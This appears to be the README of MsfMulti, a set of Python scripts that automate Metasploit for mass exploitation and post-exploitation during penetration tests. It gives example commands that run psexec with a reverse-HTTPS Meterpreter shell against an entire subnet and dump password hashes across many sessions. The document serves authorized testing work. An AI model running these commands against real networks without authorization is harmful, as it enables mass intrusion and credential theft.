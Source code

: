 # MsfMulti

MsfMulti is a set of scripts to ease some tasks using metasploit during large scope engagements.


## Dependencies

* msgpack-python
* requests


## Scripts

All the scripts rely on Metasploit's RPC interface, before using any script make sure you have
loaded the `msgrpc` module from the console with the `load msgrpc` command.


### multisploit.py

Run a given exploit against multiple targets.

Before running this script, you must have started the payload handler as a job from the console,
with the `ExitOnSession` option set to `false`.

Example:

```text
$ ./multisploit.py -e windows/smb/psexec -p windows/meterpreter/reverse_https \
-t 192.168.1.0/24 --opts='LHOST=192.168.1.16,LPORT=443'
```

Full help:

```text
usage: multisploit.py [-h] -e EXPLOIT -p PAYLOAD -t TARGETS [--opts OPTIONS]
                       [--rpc-host HOST] [--rpc-port PORT] [--rpc-user USER]
                       [--rpc-passwd PASSWD] [--rpc-ssl]
 
 Metasploit mass exploitation utility
 
 optional arguments:
   -h, --help            show this help message and exit
   -e EXPLOIT, --exploit EXPLOIT
                         exploit to run against targets
   -p PAYLOAD, --payload PAYLOAD
                         payload to use with the exploit
   -t TARGETS, --targets TARGETS
                         comma-separated list of IPs/CIDRs
   --opts OPTIONS        comma-separated options to pass to the exploit
 
 MSFRPC connection:
   --rpc-host HOST       MSFRPC host (default: 127.0.0.1)
   --rpc-port PORT       MSFRPC port (default: 55552)
   --rpc-user USER       user to use to connect to MSFRPC (default: msf)
   --rpc-passwd PASSWD   password to use to connect to MSFRPC (default: msf)
   --rpc-ssl             use SSL to connect to MSFRPC (default: False)
```

### multipost.py

Run a given `post` module against multiple sessions.

Example:

```text
$ ./multipost.py -m windows/gather/hashdump -s 1-10,12,14-18
```

Full help:

```text
usage: multipost.py [-h] -m MODULE -s SESSIONS [--opts OPTS] [--rpc-host HOST]
                    [--rpc-port PORT] [--rpc-user USER] [--rpc-passwd PASSWD]
                    [--rpc-ssl]

Metasploit mass post-exploitation utility

optional arguments:
  -h, --help            show this help message and exit
  -m MODULE, --module MODULE
                        post module to run
  -s SESSIONS, --sessions SESSIONS
                        comma-separated list of sessions and/or session-ranges
  --opts OPTS           comma-separated options to pass to the post module

MSFRPC connection:
  --rpc-host HOST       MSFRPC host (default: 127.0.0.1)
  --rpc-port PORT       MSFRPC port (default: 55552)
  --rpc-user USER       user to use to connect to MSFRPC (default: msf)
  --rpc-passwd PASSWD   password to use to connect to MSFRPC (default: msf)
  --rpc-ssl             use SSL to connect to MSFRPC (default: False)
```

